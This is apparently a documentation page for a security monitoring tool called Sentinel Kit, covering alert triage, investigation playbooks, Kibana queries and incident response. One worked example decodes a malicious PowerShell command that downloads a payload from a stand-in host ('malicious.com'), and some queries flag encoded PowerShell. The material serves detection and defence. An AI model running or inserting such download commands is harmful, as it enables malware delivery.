

# 🚨 Alert Management & Investigation

This guide covers the complete alert lifecycle in Sentinel Kit, from triage to resolution and reporting.

---

## Alert Workflow Overview

Sentinel Kit provides a comprehensive alert management system:

```
Detection → Alert Generation → Triage → Investigation → Response → Resolution
```


---

## Accessing Alerts

### Dashboard Interface

1. **Main Alerts View:**
   - Dashboard → Alerts
   - View by severity, status, and timeframe
   - Filter by rule type and data source

2. **Alert States:**
   - **New**: Recently generated, pending review
   - **In Progress**: Under active investigation
   - **Resolved**: Investigation completed
   - **False Positive**: Confirmed benign activity

### Alert Priority System

**Critical**: Immediate security threat requiring instant response
**High**: Suspicious activity requiring prompt investigation  
**Medium**: Anomalous behavior requiring review within 24h
**Low**: Informational alerts for trend analysis

---

## Alert Triage Process

### Initial Assessment

**For each new alert, determine:**

1. **Severity Validation:**
   - Does activity match rule description?
   - Is the affected asset critical?
   - What is the potential business impact?

2. **Context Gathering:**
   - Review alert details and triggered rule
   - Check related alerts from same timeframe
   - Examine affected user/system history

3. **Initial Classification:**
   - True Positive: Confirmed security incident
   - False Positive: Benign activity flagged incorrectly  
   - Requires Investigation: Insufficient data for classification

### Triage Workflow Example

**Alert**: "Multiple Failed Login Attempts Detected"

1. **Quick Assessment:**
   - Source IP: External/Internal?
   - Target Account: Privileged/Standard?
   - Time Pattern: Business hours/Off-hours?
   - Attempt Count: How many attempts?

2. **Initial Actions:**
   - Check if account is locked
   - Review recent successful logins
   - Verify if user is traveling/remote
   - Search for related authentication events

3. **Decision Points:**
   - **Escalate**: Multiple accounts, privileged targets, external sources
   - **Monitor**: Single account, internal source, business hours
   - **False Positive**: Known testing activity, service account

---

## Investigation Workflows

### Using the Integrated Dashboard

**Alert Details Panel provides:**
- Complete rule information and context
- Affected entities (users, hosts, IPs)
- Timeline of related events
- Quick action buttons for common responses

**Investigation Steps:**
1. **Review Alert Summary**: Rule trigger, detection logic, severity
2. **Examine Raw Events**: View original log entries that triggered rule
3. **Timeline Analysis**: Understand sequence of events and duration
4. **Related Activity**: Search for patterns across other data sources

### Kibana Deep Dive Analysis

For complex investigations, use Kibana's advanced features:

1. **Access from Alert:**
   - Alert Details → "Investigate in Kibana"
   - Pre-filtered search with relevant timeframe
   - Key fields automatically highlighted

2. **Advanced Search Techniques:**
```
# Search for related activity
user.name:"john.doe" AND @timestamp:[now-1h TO now]

# Find authentication patterns  
event.action:"authentication" AND source.ip:"192.168.1.100"

# Process correlation
process.parent.name:"explorer.exe" AND process.name:"powershell.exe"
```

### Investigation Playbooks

**Suspicious Login Activity:**
1. Verify user identity and expected location
2. Check for concurrent sessions from multiple IPs
3. Review recent account changes and permissions
4. Analyze access patterns and resource usage
5. Contact user for verification if needed

**Malware Detection:**
1. Isolate affected system if possible
2. Gather process information and network connections
3. Check file reputation and signatures
4. Review system timeline for persistence mechanisms
5. Scan for lateral movement indicators

**Data Exfiltration:**
1. Identify accessed files and databases
2. Review user permissions and access history
3. Analyze network traffic and transfer volumes
4. Check for staging directories and compression
5. Correlate with authentication and VPN logs

---

## Alert Investigation Tools

### Integrated Analysis Features

**Event Timeline:**
- Chronological view of related events
- Filter by event type and severity
- Zoom into specific time windows
- Export timeline for reporting

**Entity Analysis:**
- User behavior profiling
- Host activity patterns  
- Network relationship mapping
- Asset criticality scoring

**Threat Intelligence Lookup:**
- Automatic IOC enrichment
- External reputation checks
- Historical attack context
- Attribution information

### Search and Filter Capabilities

**Quick Filters:**
```
# Time-based filtering
@timestamp:[now-1d TO now]
@timestamp:[2024-01-01 TO 2024-01-31]

# Field-specific searches
host.name:"web-server-01"
user.name:"admin" OR user.name:"root"
source.ip:(192.168.1.0/24)

# Complex boolean logic
(event.action:"file_creation" OR event.action:"file_modification") 
AND NOT user.name:"system"
```

**Advanced Kibana Queries:**
```json
{
  "query": {
    "bool": {
      "must": [
        {"match": {"event.action": "process_creation"}},
        {"range": {"@timestamp": {"gte": "now-1h"}}}
      ],
      "must_not": [
        {"match": {"process.name": "svchost.exe"}}
      ],
      "should": [
        {"wildcard": {"process.command_line": "*powershell*"}}
      ]
    }
  }
}
```

---

## Response Actions

### Immediate Response Capabilities

**Automated Actions:**
- Account lockout/disable
- Network isolation rules
- Service restart/shutdown
- Alert escalation workflows

**Manual Response Options:**
- Threat hunting queries
- Evidence collection scripts
- Incident documentation
- External notification triggers

### Case Management

**Create Investigation Case:**
1. Alert Details → "Create Case"
2. Add investigation notes and findings
3. Assign to security team members
4. Set priority and due dates
5. Track response actions and outcomes

**Case Documentation:**
- Investigation timeline and methodology
- Evidence collected and analyzed
- Response actions taken
- Lessons learned and recommendations
- Final disposition and closure notes

### Communication and Escalation

**Stakeholder Notifications:**
- Security team alerts (immediate)
- Management reports (daily/weekly)
- Compliance notifications (as required)
- User communications (when appropriate)

**Escalation Criteria:**
- Critical assets compromised
- Potential data breach indicators
- Advanced persistent threat (APT) indicators
- Compliance violations detected

---

## Alert Analysis Examples

### Example 1: Suspicious PowerShell Execution

**Alert Details:**
- Rule: "Encoded PowerShell Command"
- Severity: High  
- Host: WORKSTATION-01
- User: john.doe

**Investigation Steps:**
1. **Examine Command Line:**
   ```
   powershell.exe -EncodedCommand 
   SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0AC...
   ```

2. **Decode Base64:**
   ```powershell
   [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("encoded_string"))
   # Result: Invoke-WebRequest -Uri "http://malicious.com/payload.exe"
   ```

3. **Analysis Results:**
   - Attempted download from suspicious domain
   - Domain reputation: Known malware hosting
   - No successful download (blocked by proxy)

4. **Response Actions:**
   - Block domain in firewall
   - Scan workstation for malware
   - Review user's recent activities
   - Update detection rules for similar patterns

### Example 2: Failed Login Spike

**Alert Details:**
- Rule: "Authentication Failure Threshold"
- Severity: Medium
- Source IP: 203.0.113.45
- Target Accounts: Multiple

**Investigation Steps:**
1. **Source Analysis:**
   - External IP address
   - Geographic location: Unusual for organization
   - Reputation: Clean (not on blocklists)

2. **Pattern Analysis:**
   - 500 attempts over 10 minutes
   - Sequential usernames (user1, user2, admin, etc.)
   - No successful authentications

3. **Context Review:**
   - No business relationship with source location
   - Usernames match common dictionary patterns
   - Timing correlates with similar attacks on other networks

4. **Conclusion and Response:**
   - Confirmed brute force attack
   - Block source IP at firewall
   - Review authentication logs for successful attempts
   - Implement rate limiting on login interface

---

## Reporting and Metrics

### Alert Analytics

**Key Metrics:**
- Alert volume and trends over time
- Mean Time to Detection (MTTD)
- Mean Time to Response (MTTR)  
- False positive rates by rule
- Investigation outcomes and patterns

**Dashboard Views:**
- Real-time alert status
- Security operations center (SOC) metrics
- Threat landscape overview
- Investigation workload tracking

### Compliance Reporting

**Automated Reports:**
- Daily security summary
- Weekly trend analysis  
- Monthly executive briefing
- Quarterly threat assessment

**Customizable Reports:**
- Incident response timeline
- Threat intelligence integration
- Risk assessment outcomes
- Security control effectiveness

---

## Best Practices

### Efficient Triage

**Priority Guidelines:**
1. Critical assets take precedence
2. External threats over internal anomalies
3. Confirmed incidents over possible incidents
4. Active attacks over historical evidence

**Documentation Standards:**
- Record all investigation steps
- Include screenshots and evidence
- Note lessons learned and improvements
- Update playbooks based on experience

### False Positive Management

**Common Causes:**
- Legitimate administrative activity
- Software updates and patches
- Business process changes
- Testing and development activities

**Reduction Strategies:**
- Implement rule exceptions
- Adjust threshold values
- Add contextual filters
- Regular rule tuning reviews

---

*Next: [Monitoring & Health →](06-monitoring-health.md)*